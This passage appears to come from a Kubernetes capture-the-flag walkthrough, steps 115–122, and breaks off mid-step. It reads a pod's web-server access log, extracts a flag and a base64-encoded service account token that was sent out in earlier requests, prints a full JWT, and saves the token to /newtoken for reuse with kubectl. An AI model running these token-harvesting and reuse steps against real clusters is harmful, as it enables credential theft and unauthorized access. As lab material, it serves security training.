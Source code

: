         ```shell
        podip=$(kubectl get pod mitm -o wide | grep mitm | awk '{print $6}')
        ```
115. Let's request the access.log from this pod's web server:

        ```shell
        curl -s http://${podip}:8000/log/access.log
        ```

116. We can get a flag out of this output! Let's grab the lines that have `flag=` in them:

        ```shell
        curl -s http://${podip}:8000/log/access.log | grep 'flag=' >log
        ```

117. Now get just one line from that file:

        ```shell
        head -1 log >oneline
        ```

118. Grab the flag itself from that line:

        ```shell
        cat oneline | awk -Fflag= '{print $2}' | awk -F\& '{print $1}'
        ```

119. Grab the service account token out of that line.

        ```shell
        cat oneline | awk -Fserviceaccounttoken= '{print $2}' | \
          awk '{print $1}' | base64 -d ; echo ""
        ```

120. That token will look like this:

        ```
        eyJhbGciOiJSUzI1NiIsImtpZCI6IkZwUnZfbTZQV2tEQlFQaGt1b2Q1S21QZ3ByT21wamZ2QVpORC1jZWVFZzgifQ.eyJpc3MiOiJrdWJlcm5ldGVzL3NlcnZpY2VhY2NvdW50Iiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9uYW1lc3BhY2UiOiJlbGxpbmdzb24tbWluIiwia3ViZXJuZXRlcy5pby9zZXJ2aWNlYWNjb3VudC9zZWNyZXQubmFtZSI6InRoZXBsYWd1ZS10b2tlbi1iOW1wbiIsImt1YmVybmV0ZXMuaW8vc2VydmljZWFjY291bnQvc2VydmljZS1hY2NvdW50Lm5hbWUiOiJ0aGVwbGFndWUiLCJrdWJlcm5ldGVzLmlvL3NlcnZpY2VhY2NvdW50L3NlcnZpY2UtYWNjb3VudC51aWQiOiI3ZDk0NmJiMC1iMmVhLTRiOTMtODY1ZS0yMmVlZGY3NzM4ZDYiLCJzdWIiOiJzeXN0ZW06c2VydmljZWFjY291bnQ6ZWxsaW5nc29uLW1pbjp0aGVwbGFndWUifQ.c7-eNe66P4U_W1wfb4KgOdLU-oMPvm_goxNKiccLyfNvxKw92vjc5riFlJZ6UiuG0dsQRywz5WoEWnI-aq5jK8ygbSdCmQ03KHEZ4H0hP3lMYnOjDyb0Jjzd1i0a9UPaxJUQRSw0mrdJ3ItjR43Jx8zo_SiNwdAa-fqYOtQMvzEXxERyz-UFl4ZJxcCoc4n2FQdK6AUoG8ZDua8v9B0rUkmuGvFPRQbVwrCL3M_WY9ebOMFipr88ZsjwztRVEOrNpe1T97LL8W3oX0YuZbX_eNnkYGwrMFcXpgl-68Q9Ame8ssISkvVLiT8RheUaplmOzPzuCbcE2rft863CI08KtA
        ```

121. Write that token to a file:

        ```shell
        cat oneline | awk -Fserviceaccounttoken= '{print $2}' | \
          awk '{print $1}' | base64 -d >/newtoken
        ```

122. Make a new alias for kubectl using this new token
